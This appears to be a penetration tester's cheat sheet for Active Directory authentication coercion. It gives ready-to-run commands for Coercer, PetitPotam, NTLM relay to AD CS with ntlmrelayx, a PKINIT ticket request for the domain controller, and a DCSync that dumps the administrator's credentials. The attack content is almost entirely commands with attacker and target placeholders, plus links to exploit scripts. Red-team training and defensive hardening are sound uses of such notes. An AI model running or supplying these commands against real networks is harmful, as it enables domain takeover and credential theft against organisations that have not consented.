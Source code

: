 ___





## Multi-Method
___

**Coercer will attempt 12 different methods to coerce authentication: ([coercer](https://github.com/p0dalirius/Coercer))**

```bash
python3 coercer.py coerce -l <attackerIP> -t <targetIP> -u 'user' -p 'pass' -d <domain.local> -v
```

## PetitPotam (MS-EFSRPC)
___
### Attack requirements

| Feature / Component       | Required for PetitPotam | Required for Full Relay to DA via AD CS |
| ------------------------- | ----------------------- | --------------------------------------- |
| EFSRPC                    | ✅ Yes                   | ✅ Yes                                   |
| NTLM Enabled              | ✅ Yes                   | ✅ Yes                                   |
| SMB/LDAP Signing Disabled | ✅ Yes (on relay target) | ✅ Yes (on certsrv or LDAP)              |
| AD CS Installed           | ❌ No                    | ✅ Yes                                   |
| Vulnerable AD CS Template | ❌ No                    | ✅ Yes                                   |
| EPA / Channel Binding Off | ❌ No                    | ✅ Yes                                   |

### Identify
---
```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam
```
shorthand
```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o M=pe
```

### Exploit
---
[https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)
[https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1)  
### Start ntlmrelayx
---
```PowerShell
sudo ntlmrelayx.py -debug -smb2support --target http://CA01.domain.local/certsrv/certfnsh.asp --adcs --template DomainController
```
At the same time try to coerce DC to auth
```PowerShell
python3 PetitPotam.py <attackerIP> <DCIP>
```
OR coerce with nxc
```bash
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> M=pe
```

You should receive a base64 encoded certificate in ntlmrelayx output
Next, we can take this base64 certificate and use `gettgtpkinit.py` to request a Ticket-Granting-Ticket (TGT) for the domain controller.
[https://github.com/dirkjanm/PKINITtools.git](https://github.com/dirkjanm/PKINITtools.git)
```PowerShell
python3 gettgtpkinit.py DOMAIN.LOCAL/DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```
Set krb env variable
```PowerShell
export KRB5CCNAME=dc01.ccache
```
Attempt DCSync
```PowerShell
impacket-secretsdump -just-dc-user DOMAIN/administrator -k -no-pass "DC01$"@DC01.DOMAIN.LOCAL
```